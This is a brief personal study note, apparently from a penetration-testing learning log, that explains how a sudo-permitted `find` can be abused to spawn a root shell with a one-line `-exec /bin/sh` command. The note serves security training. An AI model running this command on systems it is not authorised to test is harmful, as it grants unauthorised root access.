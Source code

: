 # Exploiting "find"

* **author**:: Nathan Acks
* **date**:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

* [2022-04-20 — ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
